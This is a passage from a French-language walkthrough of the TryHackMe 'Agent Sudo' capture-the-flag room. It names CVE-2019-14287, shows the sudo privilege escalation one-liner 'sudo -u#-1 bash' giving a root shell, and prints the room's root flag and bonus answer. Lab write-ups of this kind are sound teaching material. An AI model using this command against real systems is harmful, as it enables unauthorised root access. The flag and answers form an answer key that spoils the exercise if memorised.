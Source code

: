 ```bash

tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/exploitdb/exploits/linux/local/47502.py | head | grep CVE
# CVE : 2019-14287
```

En faisant un recherche sur sudo on arrive trouver le CVE de l'exploit.  
La réponse est : CVE-2019-14287  

**What is the root flag?**
```bash
james@agent-sudo:~$ sudo -u#-1 bash
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

On exploite la faille de sécurité.  
La réponse est : b53a02f55b57d4439e3341834d70c062  

**(Bonus) Who is Agent R?**
On à la réponse à la fin du message.  

Réponse : Deskel  
